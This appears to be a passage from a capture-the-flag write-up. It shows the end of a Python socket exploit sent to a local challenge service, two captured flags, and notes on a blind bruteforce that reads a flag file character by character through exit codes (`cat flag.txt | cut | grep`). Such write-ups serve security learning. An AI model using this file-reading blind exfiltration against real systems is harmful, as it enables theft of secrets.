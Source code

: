   ```python
      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
  ```
- flag: companyctf{In_50VI37_rUS5Ia_vODK@_DRiNKs_YOu}

## Status

- exit status code only as output
- use command to do bash blind bruteforce `cat flag.txt | cut -c -2 | grep a`
- cut -c = count
- cut -c -{count} = up to that index
- flag: companyctf{3x1t_c0d3_4r3_very_p0w3rfull_7h1ng5}
